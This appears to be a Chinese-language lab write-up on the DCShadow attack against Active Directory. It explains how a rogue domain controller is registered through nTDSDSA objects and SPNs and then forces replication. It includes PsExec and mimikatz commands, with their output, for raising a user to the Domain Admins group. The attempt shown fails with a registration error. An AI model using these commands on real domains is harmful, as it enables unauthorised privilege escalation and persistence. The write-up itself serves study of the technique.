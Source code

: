 具有管理员权限的攻击者创建一个恶意的域控，利用域控间正常同步数据的功能，将对象同步到恶意域控，实现域权限维权。

# 一、原理
活动目录是一个依赖于域控的服务，并于其他域控默认每15分钟使用运行在NTDS上名为KCC的服务进行同步。

## 1、在活动目录中新增域控
在活动目录中通过一些特殊的对象和一定的数据层级标识哪台机器是域控。只要使用域管权限添加一个具有nTDSDSA对象的服务器就可以了，且只能使用RPC协议不能使用LDAP协议。

## 2、被伪造的域控如何被正常域控认可并参与域复制
需要满足两个条件：

+ 被其他服务器信任，需要拥有有效的身份凭证
+ 支持身份认证，以便复制数据时其他正常域控能够连接到伪造的俄语域控上

对于第一个条件，恶意域控可以通过有效的机器账户，每个nTDSDSA对象都会通过serverReferenceBL属性链接到computer对象，还可以实现服务器在DNS环境中的自动注册。

对于第二个条件，可以在域内注册一个SPN，以此来提供身份认证，SPN至少需要以下两个：

（1）DRS 目录复制格式

DRS interface GUID/DSA GUID/domain name

其中DRS interface GUID为固定值，而DSA GUID是nTDSDSA对象的objectGUID属性的值

（2）全局编录服务GC

GC/hostname/domain name

## 3、强制触发域复制
windows域中自带的repadmin工具通过调用DRSReplicaAdd函数进行立刻域复制，否则就要等待15分钟同步。

# 二、漏洞攻击过程
1、通过DCShadow更改配置架构和注册SPN，从而实现在活动目录内注册一个伪造的恶意域控，使得其他域控认可，能进行域复制

2、在伪造的域控上更改活动目录数据

3、强制出发域复制，使得指定的对象能从恶意域控同步到正常域控

# 三、DCShadow攻击
域控：WIN2019-DC1 10.10.4.2

域内主机（恶意域控）：10.10.4.20

普通域用户sec\hack，具有本地管理员权限

执行psexec获取一个具有system权限的cmd窗口

```plain
C:\Windows\system32>cd C:\Users\hack\Desktop\PSTools

C:\Users\hack\Desktop\PSTools>cd C:\Users\hack\Desktop\PSTools

C:\Users\hack\Desktop\PSTools>PsExec.exe -i -s cmd.exe

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>

```

使用mimikatz修改用户hack，启动恶意域控

```plain
mimikatz # lsadump::dcshadow /object:CN=hack,CN=Users,DC=sec,DC=local /attribute
:primarygroupid /value:512
** Domain Info **

Domain:         DC=sec,DC=local
Configuration:  CN=Configuration,DC=sec,DC=local
Schema:         CN=Schema,CN=Configuration,DC=sec,DC=local
dsServiceName:  ,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration
,DC=sec,DC=local
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 247514

** Server Info **

Server: Win2019-DC1.sec.local
  InstanceId  : {8fe76a4b-bda0-498d-a879-d3ae4a03aec7}
  InvocationId: {8fe76a4b-bda0-498d-a879-d3ae4a03aec7}
Fake Server (not already registered): WIN2008-1.sec.local

** Attributes checking **

#0: primarygroupid

** Objects **

#0: CN=hack,CN=Users,DC=sec,DC=local
  primarygroupid (1.2.840.113556.1.4.98-90062 rev 1):
    512
    (00020000)

** Starting server **

 > BindString[0]: ncacn_ip_tcp:Win2008-1[57392]
 > RPC bind registered
 > RPC Server is waiting!
== Press Control+C to stop ==

```

在打开第二个psexec cmd窗口，执行同步命令

```plain
mimikatz # lsadump::dcshadow /push
** Domain Info **

Domain:         DC=sec,DC=local
Configuration:  CN=Configuration,DC=sec,DC=local
Schema:         CN=Schema,CN=Configuration,DC=sec,DC=local
dsServiceName:  ,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration
,DC=sec,DC=local
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 247689

** Server Info **

Server: Win2019-DC1.sec.local
  InstanceId  : {8fe76a4b-bda0-498d-a879-d3ae4a03aec7}
  InvocationId: {8fe76a4b-bda0-498d-a879-d3ae4a03aec7}
Fake Server (not already registered): WIN2008-1.sec.local

** Performing Registration **

ERROR kuhl_m_lsadump_dcshadow_register_ldap ; ldap_add_s computer object 0x32 (5
0)

```

这里实验失败了，需要域控2016
